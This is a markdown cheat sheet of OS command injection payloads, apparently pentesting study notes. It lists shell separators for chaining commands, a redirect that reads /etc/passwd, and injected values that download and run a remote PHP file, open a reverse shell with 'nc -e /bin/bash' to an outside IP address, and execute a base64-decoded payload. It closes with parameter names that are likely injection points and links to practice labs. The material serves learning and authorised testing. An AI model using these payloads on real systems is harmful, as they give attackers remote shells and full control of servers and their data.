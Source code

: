 ```yaml
---
tags:
  - web-app-security
---
```

## What is command Injection?

OS command injection (also known as shell injection) is a web security vulnerability that allows an attacker to execute an arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data. (From [here](https://portswigger.net/web-security/os-command-injection)).

### Context

Depending on **where your input is being injected** you may need to **terminate the quoted context** (using `"` or `'`) before the commands.

## Command Injection/Execution

# Both Unix and Windows supported
```bash 
ls||id; ls ||id; ls|| id; ls || id # Execute both

ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)

ls&&id; ls &&id; ls&& id; ls && id # Execute 2º if 1º finish ok

ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º

ls %0A id # %0A Execute both (RECOMMENDED)
```


# Only unix supported
```bash 
`ls` # ``

$(ls) # $()

ls; id # ; Chain commands

ls${LS_COLORS:10:1}${IFS}id # Might be useful

```

# Not executed but may be interesting

```bash 
> /var/www/html/out.txt #Try to redirect the output to a file

< /etc/passwd #Try to send some input to the command
```

### **Limition** Bypasses

If you are trying to execute **arbitrary commands inside a linux machine** you will be interested to read about this **Bypasses:**
### **Examples**
```bash 
vuln=127.0.0.1 %0a wget https://web.es/reverse.txt -O /tmp/reverse.php %0a php /tmp/reverse.php

vuln=127.0.0.1%0anohup nc -e /bin/bash 51.15.192.49 80

vuln=echo PAYLOAD > /tmp/pay.txt; cat /tmp/pay.txt | base64 -d > /tmp/pay; chmod 744 /tmp/pay; /tmp/pay
```
### Parameters
Here are the top 25 parameters that could be vulnerable to code injection and similar RCE vulnerabilities (from [link](https://twitter.com/trbughunters/status/1283133356922884096)):
```bash
?cmd={payload}
?exec={payload}
?command={payload}
?execute{payload}
?ping={payload}
?query={payload}
?jump={payload}
?code={payload}
?reg={payload}
?do={payload}
?func={payload}
?arg={payload}
?option={payload}
?load={payload}
?process={payload}
?step={payload}
?read={payload}
?function={payload}
?req={payload}
?feature={payload}
?exe={payload}
?module={payload}
?payload={payload}
?run={payload}
?print={payload}
```
- [ ] [**Blind OS command injection with time delays**](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)
- [ ] [**Blind OS command injection with output redirection**](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)
- [ ] [**Blind OS command injection with out-of-band interaction**](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)
- [ ] [**Blind OS command injection with out-of-band data exfiltration**](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)